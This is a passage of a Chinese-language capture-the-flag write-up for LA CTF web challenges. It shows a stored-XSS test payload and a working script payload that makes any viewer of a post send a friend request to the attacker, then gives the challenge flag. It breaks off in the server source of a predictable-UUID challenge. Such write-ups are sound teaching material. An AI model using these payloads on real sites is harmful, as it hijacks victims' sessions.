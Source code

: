 ```javascript
    res.send(
        JSON.stringify(
            accounts.get(res.locals.user).posts.map((id) => {
                const content = posts.get(id);
                return {
                    id,
                    blurb: content.length < 50 ? content : content.slice(0, 50) + "...",
                };
            })
        )
    );
});
```
:::

可以看到貼文部分沒有做 sanitize XSS 的部分，也沒有 CSP，所以很明顯的可以做 xss

可以利用以下 payload 進行測試

```htmlembedded
</p><script>alert(1);</script>
```
[連結](https://metaverse.lac.tf/post/29a20067-3d0e-466f-a588-87252799bba9)

![](https://i.imgur.com/nYMHjwX.png)

因此我們可以構造 xss payload，用 fetch 產生 post request 加我們好友 (request 部分參考原網站的 js 部分)

```htmlembedded!
</p><script>fetch("/friend", {method: "POST",body: "username=ywc",headers: {"Content-Type": "application/x-www-form-urlencoded"}})</script>
```
[連結](https://metaverse.lac.tf/post/c78e6a28-4c58-4607-bd29-72308aae59e7)

其中的 `username` 換掉即可變成加其他人好友

![](https://i.imgur.com/C1oFLYa.png)

`lactf{please_metaget_me_out_of_here}`

### uuid hell
```!
UUIDs are the best! I love them (if you couldn't tell)!

Site: uuid-hell.lac.tf
```
附件: `uuid-hell.zip`
[網頁連結](https://uuid-hell.lac.tf/)

首先來看 source code

:::spoiler server.js
```javascript
const uuid = require('uuid');
const crypto = require('crypto')

function randomUUID() {
    return uuid.v1({'node': [0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69], 'clockseq': 0b10101001100100});
}
let adminuuids = []
let useruuids = []
function isAdmin(uuid) {
    return adminuuids.includes(uuid);
}
function isUuid(uuid) {
    if (uuid.length != 36) {
        return false;
    }
```